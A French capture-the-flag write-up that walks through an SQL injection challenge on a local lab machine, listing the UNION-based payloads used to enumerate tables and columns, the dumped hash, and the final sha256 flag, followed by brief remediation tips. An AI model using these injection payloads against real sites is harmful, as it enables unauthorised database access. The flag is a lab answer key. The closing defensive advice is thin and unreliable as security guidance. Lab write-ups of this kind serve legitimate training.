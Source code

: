 Résolution:

Pour savoir si une attaque SQL est possible (c'est a dire utiliser des commandes pour chercher des informations dans la base de donné) depuis le front, j'ai utilisé la commende suivante
1 OR 1=1

Ca affiche toutes les images d'un coup a cette adresse:
http://192.168.56.101/index.php?page=searchimg
On remarque une image qui a pour titre "Hack me ?"

Ensuite la commande suivante nous donne le nom de deux bases de données:
1 UNION select 1, database()

Pour avoir le nom de la table contenant les informations qui nous interesse on peut faire la commande suivante:
1 UNION select 1, table_name from Information_schema.tables where table_schema = database()
La table qui nous interesse est "list_image"

Pour avoir le nom des colones de la table "list_image", on peut faire une recherche parmis les résultats de la commande suivante:
1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns
On obtient id, url, title et comment.

Si on veut par exemple la colonne comment, on peut utiliser cette commande:
1 UNION SELECT id, comment FROM list_images

on trouve ce message: 
"If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
Ce qui décripté donne FortyTwo. Puis en minuscule donne fortytwo ce qui donne le flag en sha256

10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


Il est possible d'escape les caractères spéciciaux comme %20 pour les espaces, pour que le code SQL ne soient plus lisible.
C'est possible aussi d'interdir certains caractères ou bout de code comme ' ou 1=1.
